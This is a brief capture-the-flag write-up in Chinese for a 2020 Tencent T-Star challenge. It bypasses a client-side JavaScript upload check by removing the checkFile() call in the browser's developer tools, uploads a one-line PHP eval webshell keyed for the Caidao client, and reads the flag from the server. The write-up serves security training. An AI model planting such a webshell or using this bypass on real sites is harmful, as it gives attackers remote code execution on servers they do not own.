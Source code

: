 ```yaml
---
title: Web - 文件上传 JS 绕过
description: 2020-腾讯犀牛鸟网络安全-T-Star-高校挑战赛
---
```


## 解题思路

- 题目需要上传一个`webshell`到服务器，但是前端有 JS 校验，导致只能上传图片<br>
![IMG ONLY](img/t-star-upload-bypass01.jpg)
  - `hack.php`
    ```bash
    <?php @eval($_POST['hack']);?>
    # hack 为菜刀连接使用的密码
    ```
- 使用开发者工具删除`onsubmit`中调用`checkFile()`函数的过程，然后就可以直接上传 PHP 文件<br>
![前端修改](img/t-star-upload-bypass02.jpg)
- 打开菜刀，添加 SHELL <br>
![连接服务器](img/t-star-upload-bypass03.jpg)
- 连接后，在`www`目录下可以看到名为`key`的文件<br>
![检索目录](img/t-star-upload-bypass04.jpg)
- 内容即为 FLAG：`key{K735c9f0D7ddc3b9}`